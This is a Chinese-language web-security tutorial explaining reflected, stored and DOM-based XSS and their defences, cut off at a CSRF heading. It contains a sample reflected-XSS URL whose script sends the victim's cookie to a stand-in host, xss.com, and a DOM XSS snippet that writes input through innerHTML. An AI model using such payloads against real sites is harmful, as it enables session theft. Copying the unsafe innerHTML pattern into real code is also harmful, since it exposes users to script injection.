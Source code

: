# Web 安全

# XSS ：跨站脚本攻击（Cross site Scripting）

> 由于英文缩写是css，和层叠样式表冲突，所以改为`XSS`

::: info

原理： 主要是通过`客户端网页`代码漏洞，注入`JavaScript`代码在客户端执行恶意脚本

:::

XSS根据攻击方式又分为三种：

1. Reflected XSS（基于反射的XSS攻击）
2. DOM-based or local XSS（基于DOM或本地的XSS攻击）
3. Stored XSS（基于存储的XSS攻击）

## 基于反射的XSS（Reflected XSS）

通过`用户输入`例如`URL参数`注入恶意`Script脚本`，例如：

`http://you.163.com/search?keyword=<script>document.location='http://xss.com/get?cookie='+document.cookie<script>`



`keyword`本身是一个搜索参数，正常情况搜索后接口会返回`keyword`和对应的`result，`页面会展示`keyword`和`result`



如果被改成一个恶意`script`脚本被用户点开，恰好页面渲染的搜索内容使用的是`innerHTML`，这时候用可以把用户的`cookie`发送到恶意的服务器

> 被攻击原因：此类型的攻击主要是前端网页校验不严格，没有预防可能注入的脚本
> 
> 预防：使用`innerText`渲染到页面可以大概率避免注入非法脚本

## 基于存储的XSS（Stored XSS）

攻击者通过`输入框`等可以保存信息到服务器的途径把恶意脚本保存到`服务器数据库`中，网站被访问后加载恶意脚本的形式实行恶意攻击。

> 被攻击原因： 前后端对用户输入没有校验，渲染时也没有校验
> 
> 预防：前后端严格校验用户输入的内容，对标签等内容进行转义



## 基于DOM或本地的XSS（ DOM-based or local XSS）

基于DOM和本地的XSS和反射的XSS区别就是反射型XSS会经过服务器的响应，而基于DOM和本地的XSS只在本地完成，比如：

```js
const userInput = "<img src=x onerror=alert('XSS')>";
const targetElement = document.getElementById("target");

// 这里是一个潜在的 DOM 型 XSS 漏洞
targetElement.innerHTML = userInput;
```

# XSS总结

- XSS不论是否经过服务器，最终都是在客户端执行恶意脚本

- 存储型XSS影响最大也最危险，可能会影响大规模用户，另外两种一般是用户自己触发

- XSS防御主要是包括输入验证、输出编码、[CSP](https://zhuanlan.zhihu.com/p/610361530?utm_id=0)等

# CSRF (跨站请求伪造)
